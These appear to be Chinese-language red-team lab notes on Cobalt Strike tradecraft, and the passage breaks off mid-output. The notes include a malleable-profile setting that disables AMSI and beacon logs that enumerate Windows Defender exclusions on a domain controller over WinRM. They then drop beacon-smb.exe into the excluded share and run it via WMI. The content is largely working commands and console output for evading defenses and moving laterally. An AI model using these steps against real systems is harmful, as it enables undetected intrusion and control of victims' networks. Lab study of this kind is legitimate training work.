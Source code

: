 ```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661566440533.png)

# AmsiScanBuffer

此章主要讲述如何绕过AMSI，课本材料提供了很多复现的技术细节

但是应用到CS上，只要在配置文件设置三行代码：
```
post-ex {
    set amsi_disable "true";
}
```

配置前：

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661676676715.png)


配置后，已经可以在dc-2使用Rubeus.exe：


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661729759471.png)

# Exclusions

枚举目标主机的exlusions规则

这里教材说可以本地，也可以远程枚举，但是我只在远程枚举成功，本地枚举beacon会断掉
```
beacon> remote-exec winrm dc-2 Get-MpPreference | select Exclusion*
[*] Tasked beacon to run 'Get-MpPreference | select Exclusion*' on dc-2 via WinRM
[+] host called home, sent: 295 bytes
[+] received output:


ExclusionExtension : 
ExclusionIpAddress : 
ExclusionPath      : {C:\Shares\software}
ExclusionProcess   : 
PSComputerName     : dc-2
RunspaceId         : 3e755110-a816-4d15-ade2-ab157e05e7bf


[+] received output:
#< CLIXML

[+] received output:
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661730058127.png)

上传beacon-smb.exe,使用wmi触发成功。教材也有说使用winrm触发，但是我会报错
```
beacon> cd \\dc-2\c$\shares\software
[*] cd \\dc-2\c$\shares\software
[+] host called home, sent: 33 bytes
beacon> upload C:\Payloads\beacon-smb.exe
[*] Tasked beacon to upload C:\Payloads\beacon-smb.exe as beacon-smb.exe
[+] host called home, sent: 311834 bytes
beacon> remote-exec wmi dc-2 C:\Shares\Software\beacon-smb.exe
[*] Tasked beacon to run 'C:\Shares\Software\beacon-smb.exe' on dc-2 via WMI
[+] host called home, sent: 4400 bytes
[+] received output:
CoInitializeSecurity already called. Thread token (if there is one) may not get used